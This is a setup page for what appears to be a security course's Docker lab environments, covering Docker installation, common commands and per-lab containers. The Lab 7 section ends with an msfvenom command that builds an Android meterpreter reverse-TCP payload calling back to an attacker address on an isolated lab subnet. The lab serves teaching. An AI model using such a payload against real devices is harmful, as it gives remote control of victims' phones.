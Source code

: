# Set-up

I'm trying to encapsulate all lab environments into Docker containers respectively. So users can access the environments directly without installing extra dependencies (skip Set-up section in each lab). The only thing you need to prepare is to install Docker on your (cloud) machine.

## Install Docker

`````{tabbed} Windows

[Docker Desktop](https://www.docker.com/products/docker-desktop) is a strongly recommended GUI to access containers. After the desktop client application installed, you can pull the image of a lab (e.g. lab 4) by `cmd` (or other terminals like PowerShell or WSL)

```
> docker pull yangzhou301/lab4:lastest
```

When you open the Docker Desktop and select "Images" section, you can find the downloaded images:

![](figs/images.png)

Click "Run" and set [volumes](https://docs.docker.com/storage/volumes/sudo) (mapping from the host folder to the folder inside the running container):

![](figs/volume.png)

After the container starts running, you can click the CLI buttom to open a command-line window:

![](figs/container.png)

```{note}
It uses `sh` as default commond-line tool, you can switch to `bash` by running `\bin\bash` right after opening the CLI.

![](figs/cli.png)
```

By selecting a running container, you can monitor the performance stats:

![](figs/stat.png)
`````

`````{tabbed} Ubuntu

Follow the instructions from [its docs](https://docs.docker.com/engine/install/ubuntu/):

First, remove all older versions of Docker:

```
$ sudo apt-get remove docker docker-engine docker.io containerd runc
```

Install all dependent packages:

```
$ sudo apt-get update
$ sudo apt-get install \
    apt-transport-https \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
```

Add Docker’s official GPG key:

```
$ curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

Set up the stable repository as the target:

```
$ echo \
  "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

Install Docker engine:

```
$ sudo apt-get update
$ sudo apt-get install docker-ce docker-ce-cli containerd.io
```

After that, Docker is almost set-up, you can check it by

```
$ docker version
```

````{seealso} Post-installation
However, it still requires `sudo` to run Docker daemons. If you don't want to invoke `sudo` every time you use `docker` commands, you can create a Unix group called `docker`:

```
$ sudo groupadd docker
```

And add your user to the `docker` group:

```
$ sudo usermod -aG docker $USER
```

Active the changes to groups:

```
$ newgrp docker
```

````

After Docker installed, pull an image of lab environment (e.g. Lab 4) from the remote repository:

```
$ docker pull yangzhou301/lab4:lastest
```

Suppose the local folder you want to share with the container called `/path/to/host-volume` (**Note**: it must be the absolute path, not relative one), which you want to place into the container as `/path/to/container-volume`, you should run the image as such a container:

```
$ docker run -it -v /path/to/host-volume:/path/to/container-volume yangzhou301/lab4:lastest
```

in which `-it` (`--interactive + --tty`) takes you directly inside of the container in an activative way, `-v` stands for [volume](https://docs.docker.com/storage/volumes/#populate-a-volume-using-a-container) that creates a mapping storage from the host to the container.

Then, install `docker-compose` as the [instruction](https://docs.docker.com/compose/install/):

Download the stable release of Docker Compose:

```
$ sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```

Apply executable permissions to it:

```
$ sudo chmod +x /usr/local/bin/docker-compose
```

Create a symbolic link to `/usr/bin`

```
$ sudo ln -s /usr/local/bin/docker-compose /usr/bin/docker-compose
```

Test if it is installed successfully:

```
$ docker-compose --version
```
`````

## Common Docker Commands

List all running containers:

```
$ docker ps
```

List all containers (including exited ones):

```
$ docker ps -a
```

Kill all running containers:

```
$ docker container kill $(docker ps -q) 
```

Remove all exited docker containers:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
```

List all local images

```
$ docker images
```

Remove all local images:

```
$ docker rmi $(docker images -a -q)
```

## For each lab

### Lab 3

- Dockerfile: {Download}`lab3/Dockerfile`
- Remote: [yangzhou301/lab3](https://hub.docker.com/repository/docker/yangzhou301/lab3)
- Command:

```
$ docker run -it yangzhou301/lab3
```

### Lab 4

- Dockerfile: {Download}`lab4/Dockerfile`
- Remote: [yangzhou301/lab4](https://hub.docker.com/repository/docker/yangzhou301/lab4)
- Shared Folder: `/usr/src/app`(container)
- Command:

```
$ docker run -it --volume=<your-path>:/usr/src/app yangzhou301/lab4
```



### Lab 7

In this lab, it contains three containers`docker-compose`

- Compose File: {Download}`lab7/docker-compose.yml`
- Dockerfile(Attacker): {Download}`lab7/Dockerfile`
- Remote(Attacker):  [yangzhou301/lab7](https://hub.docker.com/repository/docker/yangzhou301/lab7)
- Command
  - Start Docker Compose:
```sh
# work in lab7 directory
$ cd lab7
$ docker-compose up -d

# or any directory that includes the `docker-compose.yml`
$ docker-compose up -d -f docker-compose.yml
```
 - Manipulate the Android Emulator (victim container `10.9.0.6`) on [http://localhost:6080](http://localhost:6080)
 - Monitor the traffic in the subnet via Wireshark (analyzer container `10.9.0.8`) on [http://localhost:3000](http://localhost:3000/)
 - Open a shell in the attacker container (`10.9.0.7`) to process the lab

```
$ docker exec -it attacker /bin/bash
```
 - When all jobs done, terminate all containers by

```
$ docker-compose down
```

Accordingly, change the IP address used in lab instruction, for example:

```
msf> msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.7 LPORT=4444 -f raw -o reverse_tcp.apk
msf> set lhost 10.9.0.7
```